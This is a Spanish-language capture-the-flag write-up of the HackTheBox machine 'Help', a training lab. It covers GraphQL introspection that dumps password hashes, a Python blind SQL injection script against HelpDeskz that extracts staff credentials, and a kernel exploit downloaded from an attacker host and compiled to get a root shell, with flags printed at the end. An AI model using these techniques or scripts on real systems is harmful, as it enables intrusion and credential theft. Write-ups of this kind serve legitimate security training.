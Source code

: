 ```yaml
---
title: HackTheBox - Help
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SQL Injection', Graphql, 'Kernel Exploitation']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Help/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Help Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **SQL Injection, Graphql, Kernel Exploitation**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Help`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Help/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Help/02-versions.png)

    > Vemos que si vamos colocamos la **IP** de la **`Máquina Help`** en el navegador nos redirige a **`http://help.htb`**, por lo cual lo colocamos en el archivo **`/etc/hosts`**.
    {: .prompt-info }

c. Encontramos lo siguiente en **http://help.htb**

![](/assets/images/HTB/Easy/Help/03-web.png)

* Enumeramos por posibles directorios

  ```bash
  wfuzz -c -t 80 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://help.htb/FUZZ/ 
  
  000000055:   200        96 L     236 W      4413 Ch     "support"
  ```

* Al visitar **/support** notamos que se usa **`HelpDeskz`**, si bucamos vulnerabilidades nos encontramos con una **`SQLi (Authenticated)`**, por lo cual necesitamos de credenciales válidas.

d. Enumeramos el servicio que se ejecuta por el puerto **3000** (Debemos usar varios diccionarios)

```
wfuzz -c -t 80 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/big.txt http://<IP>:3000 

000020476:   400        0 L      3 W        18 Ch       "graphql" 
```

## Grapql Exploitation 🍇

* El servicio de **graphql** puede ser explotable [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)

  1. Enviamos una petición por **POST** para enumerar el servicio

      ![](/assets/images/HTB/Easy/Help/06-data.png)


      ```bash
      curl -s -X POST "http://<IP>:3000/graphql" -H "Content-Type: application/json" -d 'PAYLOAD' \| jq
      ```

      ```json
      <SNIP>
      "name": "User",
      "fields": [
        {
          "name": "username"
        },
        {
          "name": "password"
        }
      ]
      <SNIP>
      ```

  2. Ahora, podemos enviar una solicitud para obtener el esquema de **graphql** y poder representarlo gráficamente en [Graphql-Voyager](https://graphql-kit.com/graphql-voyager/)

  
      * En navegador: 

        ```
        http://<IP>:3000/graphql?query=fragment%...[PAYLOAD EN HACKTRICKS]...
        ```

      * El output del navegador lo pegamos en [Graphql-Voyager](https://graphql-kit.com/graphql-voyager/) y podremos ver de mejor forma la **"base de datos"**


        ![](/assets/images/HTB/Easy/Help/04-graphql.png)

        > Representación de `Graphql`

      * Ahora, realizamos una consulta para obtener los datos, en base al esquema anterior

        ```
        curl -s -X POST "http://<IP>:3000/graphql" -H "Content-Type: application/json" -d '{"query":"{user{username,password}}"}'

        {"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}
        ```

  3. La contraseña está cifrada con **MD5**, usamos **`dcode 5d3c93182bb20f07b994a7f617e99cff`** y la veremos en texto plano **`godhelpmeplz`**

     * Ahora, nos podemos autenticar en el servicio **`http://help.htb/support`** y podemos explotar la vulnerabilidad **SQLi**

        ```python
        import requests
        import string
        from pwn import *

        url_main = "http://help.htb"
        characteres = string.ascii_letters + string.digits + ',.+@_ :'

        headers = {"Cookie": "<Cookie>"}
        bar_1 = log.progress("Brute Force")
        bar_1.status("Starting Brute Force...")
        bar_2 = log.progress("Data")
        database_name=""

        for position in range(1,200):
          for character in characteres:
            sqli_url = f"/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=7 and substr((select group_concat(username,':', password) from staff),{position},1) = '{character}'-- -"
            bar_1.status(sqli_url)
            r = requests.get(url_main+sqli_url, cookies=headers)
            if ("Page not found" not in r.text):
              database_name+=character
              bar_2.status(database_name)
              break
        ```


       ```bash
       [q] Databases Name: information_schema,mysql,performance_schema,support
       [-] Tables 'support': articles,attachments,canned_response,custom_fields,departments,emails,error_log,file_types,knowledgebase_category,login_attempt,login_log,news,pages,priority,settings,staff,tickets,tickets_messages,...
       [l] Columns: id,username,password,fullname,email,login,last_login,department,timezone,signature,newticket_notification,avatar,admin,status
       [k] username, password: admin:d318f44739dced66793b1a603028133a76ae680e (SHA1) -> Welcome1
       ```

  4. Al autenticarnos en el servicio **`HelpDeskz`** conseguimos un nombre de usuario

  ![](/assets/images/HTB/Easy/Help/05-user.png)

  5. Al ir testeando con algunos nombres de usuarios que contengan **`helpme`** damos con **`help`** para autenticarnos en el servicio **`ssh`**

    ```bash
    ssh help@<IP>
    Password: Welcome1
    help@help:~$
    ```

### Escalada de Privilegios 💹

a. El sistema es vulnerable a un **`kernel exploit`** [Exploit](https://www.exploit-db.com/exploits/44298)

```bash
help@help:~/help$ uname -a           
Linux help 4.4.0-116-generic #140-Ubuntu
```

b. Lo descargamos en nuestra **Máquina Atacante** para tranferirlo a la **`Máquina Víctima`**

* Máquina Atacante: **python -m http.server 8000**
* Máquina Víctima: **wget <tun0 IP>:8000/exploit.c -o-** -> **gcc exploit.c -o backup**

c. Una vez ejecutamos el archivo **`backup`** tenemos acceso como **`root`** y podemos leer las **`flags`**

```bash
help@help:~/help$ ./backup 
task_struct = ffff880038906a40
uidptr = ffff88003619a6c4
spawning root shell
root@help:~/help# whoami
root
root@help:~/help# find / -name root.txt 2>/dev/null | xargs cat
f68cb05096d8f2a4bb36f975435c582a
root@help:~/help# find / -name user.txt 2>/dev/null | xargs cat
401375d4050453ea5583cd902da8104a
```